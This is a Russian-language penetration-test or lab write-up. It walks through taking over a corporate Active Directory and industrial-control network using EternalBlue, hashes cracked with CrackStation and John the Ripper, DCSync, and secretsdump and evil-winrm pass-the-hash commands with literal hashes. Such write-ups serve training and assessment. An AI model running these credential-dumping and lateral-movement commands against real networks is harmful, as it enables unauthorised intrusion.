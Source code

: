### Сегмент OFFICE

Помимо доступа через Active Directory, некоторые компьютеры в данном сегменте также уязвимы к EternalBlue, что позволяет получить системные права.

### Сегмент АСУ ТП:
Машины `10.39.239.5`, `10.39.240.14` также уязвимы к EternalBlue. Зайдем в директорию с конфигурацией ПО Enlogic и просмотрим настройки. Находим пароли в виде, скорее всего, хешей.
```
psw_psw1="8d777f385d3dfec8815d20f7496026dc"
psw_psw2="2245023265ae4cf87d02c8b6ba991139"
psw_psw3="21232f297a57a5a743894a0e4a801fc3"
```
Проверим их на CrackStation:
![](https://i.imgur.com/APakN72.png)

### Получение доступа к межсетевому экрану

На сервере `10.39.4.10` (sysadminarm.company.local, OFFICE) обнаружен зашифрованный архив `C:\документы\39password.zip`. С помощью John the Ripper и rockyou получаем пароль: `10900`

В распакованном архиве данные для входа на сервер с IDS `10.39.1.254`:


### Компрометация паролей, закрепление

Используя хеш, полученный с `bachgarm.company.local` через `DCSync attack`, заходим как `cadm` на `ns1.company.local`. Включаем учетную запись администратора.

```
net user administrator /active:yes
```

```
python3 secretsdump.py 
    company.local/cadm@mx1.company.local -hashes 
    'aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55'
```

```
evil-winrm -i ns1.company.local 
    -u administrator 
    -H '77ea8af149e98b6e0858308e121ac91f'
```

```
python3 secretsdump.py 
    company.local/admin@mx1.company.local -hashes 
    'aad3b435b51404eeaad3b435b51404ee:77ea8af149e98b6e0858308e121ac91f'
```

Последняя команда выдает хеши всех пользователей в домене ActiveDirectory, что позволяет подключиться к любому компьютеру через Pass the hash атаку. Команда приведена ниже.

```
evil-winrm -i COMPUTER_DOMAIN_NAME 
    -u administrator 
    -H '77ea8af149e98b6e0858308e121ac91f'
```
